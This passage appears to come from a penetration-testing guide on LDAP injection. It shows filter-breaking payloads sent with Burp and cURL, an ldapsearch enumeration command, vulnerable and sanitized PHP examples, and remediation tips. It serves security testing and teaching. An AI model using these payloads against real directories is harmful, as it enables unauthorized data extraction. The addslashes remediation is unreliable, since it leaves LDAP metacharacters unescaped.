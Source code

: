 ### 3. Test for LDAP Data Extraction

**Objective**: Attempt to extract directory data via LDAP injection.

**Steps**:
1. Identify data display endpoints:
   - Look for search results, user profiles, or API responses.
2. Inject payloads:
   - Use Burp:
     ```http
     GET /search?query=john)(cn=* HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/search?query=john)(cn=*"
     ```
3. Check responses:
   - Look for additional data (e.g., user names, emails).
   - Test: `*)(mail=*`.
4. Use ldapsearch to confirm:
   ```bash
   ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(cn=*)"
   ```

**Example Vulnerable Code (PHP)**:
```php
$filter = "(cn=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: `?query=john)(cn=*`
Result: Returns all common names.

**Example Secure Code (PHP)**:
```php
$query = preg_replace('/[^a-zA-Z0-9]/', '', $query);
$filter = "(cn=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: No extra data.

**Remediation**:
- Restrict LDAP queries:
  ```php
  $filter = "(cn=" . addslashes($query) . ")";
  ```
- Limit returned attributes:
  ```php
  ldap_search($ldap, "dc=example,dc=com", $filter, ["cn"]);
  ```

**Tip**: Save extracted data in a report.

### 4. Test for Blind LDAP Injection
